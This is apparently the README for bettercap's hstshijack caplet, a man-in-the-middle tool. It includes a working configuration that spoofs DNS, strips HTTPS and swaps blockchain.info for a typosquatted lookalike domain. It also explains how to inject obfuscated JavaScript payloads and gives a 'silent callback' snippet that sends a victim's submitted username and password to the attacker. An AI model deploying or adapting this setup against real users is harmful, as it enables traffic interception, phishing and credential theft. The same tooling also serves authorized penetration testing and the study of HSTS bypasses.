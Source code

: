<p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             caplets/hstshijack/ssl.log
set hstshijack.payload         caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         blockchain.info,*.blockchain.info
set hstshijack.replacements    blockchian.info,*.blockchian.info
#set hstshijack.blockscripts    domain.com,*.domain.com
set hstshijack.custompayloads  *:caplets/hstshijack/payloads/sslstrip.js

set http.proxy.script  caplets/hstshijack/hstshijack.js
#set net.sniff.output   hstshijack0001.pcap
set net.sniff.verbose  false
set dns.spoof.all      true
net.sniff    on
dns.spoof    on
http.proxy   on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>). This payload communicates with the bettercap sniffer, revealing all URLs that are discovered in the injected document.

This is done in separate and asynchronous requests so that bettercap can adjust the host and path for each request, and then send a HEAD request in order to learn each host's response to a HTTP request for the given path.

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:caplets/hstshijack/payloads/sslstrip.js,google.com:caplets/hstshijack/payloads/google.js,*.google.com:caplets/hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically every word that was found beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a callback, any request from the client for a spoofed hostname will immediately be redirected to the legitimate hostname, and any request for that targeted hostname will no longer be spoofed for this particular client.

Note: Any instance of `obf_path_callback` will be replaced with the callback path that bettercap listens for (this can save time when writing JavaScript payloads).

